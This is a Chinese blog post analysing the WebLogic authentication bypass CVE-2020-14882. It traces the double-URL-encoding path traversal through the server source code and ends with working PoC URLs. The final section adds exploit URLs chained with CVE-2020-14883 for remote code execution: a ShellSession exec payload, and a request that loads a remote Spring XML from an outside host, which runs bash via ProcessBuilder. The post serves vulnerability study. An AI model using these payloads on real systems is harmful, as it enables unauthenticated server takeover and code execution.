# Weblogic 权限绕过之 CVE-2020-14882 利用和源码分析 - noone52 - 博客园

> 原文：[`www.cnblogs.com/MoZiYa/p/16690190.html`](https://www.cnblogs.com/MoZiYa/p/16690190.html)

# 前言：

CVE-2020-14882 这个漏洞我记得 20 年是秋冬之际，当时是在驻场，还好外网没有这个漏洞，大多数是在内网，当时还是个小白，只会用也不明白其原理，现在回过头来看，又有了新的理解。

# 环境：

weblogic12.2.1.4.0
jdk8u_121

# 代码分析：

## 鉴权代码分析：

CVE-2020-14882 是权限绕过漏洞，所以我们直接切入主题，找到鉴权的代码，在 idea 中双击 shift，查找`doSecuredExecute`方法。

此方法存在于`\middleware\wlserver\modules\com.oracle.weblogic.servlet.jar!\weblogic\servlet\internal\WebAppServletContext.class`WebAppServletContext 类，可以看到中间有个 servlet 单词，servlet 我们很熟悉了，servlet 在内存马那块我们学习过，就是就相当于前置代码，所有请求先到我这里处理。上图可以看到 1893 行的 checkAccess 方法是检查权限的，这里我们还是利用奇安信的集成好的项目搭建 12.2.14.0 版本的 weblogic。
跟进 checkAccess 方法：

我这里进入之后，会直接跳到 474 行`throw var7;`然后就走到下面重载的 checkAccess 方法，这里很奇怪，代码中是在 468 行调用了重载后的方法，我在那里下断点没断到，直接进入了重载后的方法，有知道的带佬可以留言交流。
接下来 491 行就是检查路径资源，跟进：

我们可以看到出入的参数是浏览器访问的路径和方法，再在 this.constraintsMap 中查询是否为安全路径。this.constraintsMap 集合中的键值对和 web.xml 中的 security-constraint 节点是对应的。

如果我们访问的是除上面之外的 url，得到的 resourceConstraint 变量的 unrestricted 就是 false，我们访问的是/console/console.portal，不在安全访问标签里，也就是受限制。


受限制之后，出来之后回到 checkAccess 方法，到 511 行`isAuthorized()`

进入 isAuthorized 方法，也就是鉴权：

跟进 checkUserPerm 方法，该方法用于检测用户是否登录，看 session 是否过期，

跟入 hasPermission 方法：



我这里是没有登录访问的，所以返回的是 false，这就是鉴权的整个流程。

如果是访问正常静态资源，则返回 unrestricted 的值，hasPermission 返回为 true。



## 权限绕过分析

```
ResourceConstraint resourceConstraint = checkAllResources ? Holder.ALL_CONSTRAINT : this.getConstraint(request) 
```

一开始是这里开始检查所有的资源的，如果符合，返回一个 resourceConstraint 对象，就会继续往下进行。
那么我们需要的是既能绕过他的检查函数，又能返回 resourceConstraint 对象。
继续跟入`\middleware\wlserver\modules\com.oracle.weblogic.servlet.jar!\weblogic\servlet\security\internal\WebAppSecurityWLS.class#getConstraint`


在这里会调用 weblogic.servlet.utils.StandardURLMapping#get 去根据 url，返回对应的 ResourceConstraint 对象


调用 getExactOrPathMatch 方法，也就是根据 url，匹配是否在静态资源列表中

而 %252E%252E%252F 恰好是…/的 url 二次编码结果。这样既可以返回静态资源的 ResourceConstraint 对象，又不会影响正常访问。

## 后台界面处理流程/漏洞成因

我们先来看一下账号密码登录的处理流程。流程包含了处理 servlet 的一些逻辑。
由于我们用的是奇安信的集成项目，运行后可访问 http://localhost:7001/console/login/LoginForm.jsp 登录到 Weblogic Server 管理控制台，默认用户名为 weblogic,默认密码为 qaxateam01
登录后 后台界面实际上访问的是/console/console.portal，然后我们查看 weblogic 后台对应的 webapp 的 web.xml（后台本身也算是一个 webapp）
`\middleware\wlserver\server\lib\consoleapp\webapp\WEB-INF\web.xml`

找到 AppManagerServlet，

名字为 AppManagerServlet 的 servlet 调用的类为`\middleware\wlserver\modules\com.oracle.weblogic.servlet.jar!\weblogic\servlet\AsyncInitServlet.class`
AppManagerServlet 类中有个初始化函数，这里简单提一下，servlet 的生命周期，熟悉的人应该很熟悉了，servlet 的生命周期有：

```
Servlet 初始化后调用 init () 方法。
Servlet 调用 service() 方法来处理客户端的请求。
Servlet 销毁前调用 destroy() 方法。 
```

言归正传，初始化函数调用如下：
`init()-->initDelegate()-->createDelegate()`

调用的 createDelegate，赋值给 this.delegate 属性。
我们看一下 createDelegate 方法，

把 SERVLET_CLASS_NAME 对应的类，反射获取 class 类对象。

SERVLET_CLASS_NAME 对应的类就是 web.xml 中的`com.bea.console.utils.MBeanUtilsInitSingleFileServlet`类。
一开始 MBeanUtilsInitSingleFileServlet 这个类没找到，最后发现是在`\middleware\wlserver\server\lib\consoleapp\webapp\WEB-INF\ib`中，导入包就可以了。

```
寻找类
grep -rn "com.bea.console.utils.MBeanUtilsInitSingleFileServlet" * 
```

最终使用 Class.forName 实例化了 com.bea.console.utils.MBeanUtilsInitSingleFileServlet 类，赋值给 this.delegate 属性。这是初始化的操作。
再看一下 service 方法中的操作。
`AsyncInitServlet#server-->MBeanUtilsInitSingleFileServlet.#server-->SingleFileServlet#server-->UIServlet#server`
这是调用链，就不贴图了，都是进入到父类的 server 方法，最后定位到 UIServlet#server

我们是 get 请求的，最后走到 doGet 方法

doGet 方法，调用 doPOST 方法，奇怪的姿势又增加了。🤭
问题出在 doPOST–>createUIContext–>UIServletInternal.createUIContext–>getTree–>URLDecoder.decode()

URLDecoder.decode 执行完成后，我们的 url 路径(images/%2e%2e%2f)被再次解码，最终变成 images/…/console.portal.portal，导致目录穿越。
根据 http 规定，url 部分，需要 url 编码后发送给服务器。服务器正常解开并继续处理。这是第一层 url 编码。
而上图 112 行 URLDecoder.decode()对 URL 进行了二次编码从而绕过限制。
servlet 中先处理二次编码的 poc，然后再有鉴权代码去鉴权，欺骗服务器后，服务器发现有权限访问静态资源(/console/images/%252E%252E%252Fconsole.portal ，其实有…/)，然后就让我 console.portal，从而接管后台。

# 利用：

## 影响版本：

Oracle Weblogic Server 10.3.6.0.0
Oracle Weblogic Server 12.1.3.0.0
Oracle Weblogic Server 12.2.1.3.0
Oracle Weblogic Server 12.2.1.4.0
Oracle Weblogic Server 14.1.1.0.0
这里我对 12.1.3.0.0 也搭建了环境，没有检测到其存在此漏洞，有点奇怪。🤫

## poc：

```
http://ip:port/console/%2E%2E%2Fconsole.portal
/console/css/%252e%252e%252fconsole.portal
大小写编码可以达到绕过的目的 
```

有个问题就是使用 payload 第一次访问会显示这样：

```
payload
http://192.168.210.83:7001/console/%2E%2E%2Fconsole.portal?_nfpb=true&_pageLabel=HomePage1 
```


仔细看了一下，是 URL 编码把…先解析，也不知道为啥，知道的带佬可以一起交流。

## exp：

将 CVE-2020-14882 和 CVE-2020-14883 进行组合利用后，远程且未经授权的攻击者可以直接在服务端执行任意代码，获取系统权限。
此时需要利用到第二个漏洞 CVE-2020-14883。这个漏洞的利用方式有两种，一是通过`com.tangosol.coherence.mvel2.sh.ShellSession`，
二是通过`com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext`。
**weblogic10**

```
/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.bea.core.repackaged.springframework.context.support.FileSystemXmlApplicationContext("http://192.168.210.49:7777/linux-exec.xml") 
```

```
<?xml version="1.0" encoding="UTF-8" ?>
<beans 

   xsi:schemaLocation="http://www.springframework.org/schema/beans http://www.springframework.org/schema/beans/spring-beans.xsd">
    <bean id="pb" class="java.lang.ProcessBuilder" init-method="start">
        <constructor-arg>
          <list>
            <value>bash</value>
            <value>-c</value>
            <value><![CDATA[touch /tmp/success2]]></value>
          </list>
        </constructor-arg>
    </bean>
</beans> 
```

**weblogic12**
Weblogic 10 没有 com.tangosol.coherence.mvel2.sh.ShellSession 这个 gadget，只存在于 weblogic 12，weblogic10 并没有这个包，所以无法使用。

```
http://127.0.0.1:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=HomePage1&handle=com.tangosol.coherence.mvel2.sh.ShellSession(%22java.lang.Runtime.getRuntime().exec(%27calc.exe%27);%22);

http://127.0.0.1:7001/console/css/%252e%252e%252fconsole.portal?_nfpb=true&_pageLabel=&handle=com.tangosol.coherence.mvel2.sh.ShellSession("java.lang.Runtime.getRuntime().exec('touch%20/tmp/success1');") 
```

```
参考：
https://mp.weixin.qq.com/s/_zNr5Jw7tH_6XlUdudhMhA
https://144.one/weblogic-cve-2020-1488214883lou-dong-fen-xi.html
https://kuron3k0.github.io/2020/11/12/CVE-2020-14882/ 
```